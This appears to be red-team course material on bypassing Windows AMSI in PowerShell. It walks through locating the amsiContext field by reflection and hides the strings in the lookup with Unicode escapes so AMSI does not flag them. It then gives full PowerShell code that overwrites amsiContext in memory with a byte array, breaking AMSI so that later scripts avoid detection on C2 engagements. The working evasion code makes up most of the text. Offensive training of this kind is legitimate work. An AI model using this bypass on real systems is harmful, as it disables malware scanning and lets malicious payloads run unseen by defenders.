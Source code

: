 
## AMSI Bypass in Action	
- AMSI is not a global patch, its patched for the current process only. 
- On a red team leveraging C2 framework, as some tasks might spawn a new process > Detected and Burned if we dont patch AMSI for the newly spawned process
## Over ride AMSI 
- In order to override the `amsiContext` we need to find it
- Identify the memory address of `amsiContext`
- Remember, AMSI is being enforced through injecting "amsi.dll" in processes that are being spawned.

This means that all the functionality of AMSI is available in that process's address space. It is here that we will already encounter our first hurdle: the “classic” approach to get this location is identified as malicious by AMSI

## Locate amsiContext
• Static analysis is the likely mechanism
• Test this hypothesis
• Use Unicode characters using built-in PowerShell functionality
```
[Ref].Assembly.GetType('System.Management.Automation.'+[regex]::Unescape('\u
0041')+'msiUtils').GetField("ams"+[regex]::Unescape('\u0069')+"Context",'Non
Public,Static').GetValue($null)
```

## AMSI under the Hood
• Now that we have the memory location
	We can create an arbitrary byte array
	Place it where amsiContext code should be
• First look at what should be there in a debugger

## Creating the AMSI Bypass
Let's create our bypass:
1. First, we are going to create a new byte array that contains the sentence "sec565 rules!!!" in hexadecimal representation
2. We will use the Count function to dynamically compute the size of the array
3. Finally, we will copy the byte array to the amsiContext location, overriding what is currently there

## AMSI Bypass Code
- We create the byte array and will find the length for our call to copy later on.
- Once we get the memory address, we print it to standard out.
- Finally, we copy our byte array to where amsiContext is in memory.
```powershell
# create the byte array
$sec565 = [Byte[]]
(0x73,0x65,0x63,0x35,0x36,0x35,0x20,0x72,0x75,0x6c,0x65,0x73,0x21,0x21,0x21)
# calculate the length of the array dynamically
$length = $sec565.Count
# get the memory location of amsiContext
[IntPtr]$ptr = [Ref].Assembly.GetType('System.Management.Automation.'+[regex
]::Unescape('\u0041')+'msiUtils')
.GetField("ams"+[regex]::Unescape('\u0069')+"Context",'NonPublic,Static').Ge
tValue($null)
# echo it, so we can inspect it in a debugger if we want
echo $ptr
# copy the array to the memory location
[System.Runtime.InteropServices.Marshal]::Copy($sec565,0,$ptr,$length)
```

## AMSI Bypass in Action
If we now restart PowerShell and apply the patch and attach WinDbg again, we will see our "sec565 rules!!!" sentence where 'AMSI' used to be in the amsiContext file

string, we effectively broke AMSI's functionality, which allows us to do whatever we want without having to
worry about AMSI.
